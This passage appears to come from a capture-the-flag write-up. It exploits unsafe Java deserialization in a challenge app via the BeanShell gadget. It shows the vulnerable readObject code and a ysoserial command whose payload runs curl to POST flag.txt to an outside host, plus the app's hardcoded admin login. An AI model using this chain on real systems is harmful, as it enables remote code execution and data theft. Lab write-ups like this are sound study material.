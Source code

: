 Inside pom.xml file we see 

```xml
        <dependency>
            <groupId>org.beanshell</groupId>
            <artifactId>bsh</artifactId>
            <version>2.0b5</version>
        </dependency>
```

next step is to generate proper payload to abuse `readObject` with our binary payload.


```java
    private Device deserializeDevice(byte[] data) throws Exception {
        try (ByteArrayInputStream bis = new ByteArrayInputStream(data);
                ObjectInputStream ois = new ObjectInputStream(bis)) {

            System.out.println("INFO: Starting vulnerable deserialization process.");
            Object deserializedObject = ois.readObject();
```

Payload was generated via `ysoserial` (compiled from source, but you can simply download jar file from github):


```console
$ java --add-opens java.base/java.util=ALL-UNNAMED --add-opens java.base/sun.reflect.annotation=ALL-UNNAMED -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar  BeanShell1 'curl -X POST --data-binary @flag.txt http://myproxy' > ~/b.bin
```

then you need to login (credentials are hardcoded - admin / password) and upload a new device (where you will upload generated binary). We don't care about any serialization error or anything else, because real execution will be done before.
